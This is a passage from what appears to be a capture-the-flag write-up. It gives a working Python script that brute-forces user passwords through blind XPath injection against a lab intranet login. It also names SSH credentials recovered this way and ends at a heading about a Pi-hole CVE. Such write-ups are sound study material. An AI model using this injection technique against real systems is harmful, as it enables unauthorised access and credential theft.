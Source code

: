 ```python
    "bryan",
    "sarah"
]

def getChar(user, x, i):
    url = "http://172.31.179.1:80/intranet.php"    
    data = {"Username": user, "Password": "a' or substring(//Username[contains(.,'" + user + "')]/../Password,{0},1)='{1}']\x00".format(str(i), x)}
    r = requests.post(url, data=data, proxies=proxies)
    if len(r.text) == 7529:
        return True
    else:
        return False

charset = string.ascii_letters + string.digits + string.punctuation

for user in usernames:
    pwd = ""
    l = log.progress("Brute Forcing %s... " % user)
    log_pass = log.progress("Password: ")
    i = 1
    while True:
        canary = True
        for x in charset:
            l.status(x)
            res = getChar(user,x, i)
            if res:
                canary = False
                pwd += x
                log_pass.status(pwd)
                i += 1
                break
        if canary:
            break

l.success("DONE")
log_pass.success(pwd)
```

Running the script we get the following passwords:

{{< image src="images/image-20200801212846920.png" >}}


The only credentials that work over SSH are `bryan / ireallyl0vebubblegum!!!`

{{< image src="images/image-20200801212949995.png" >}}


## Pi-hole CVE-2020-11108

Checking the listening sockets we see something on port 5553.

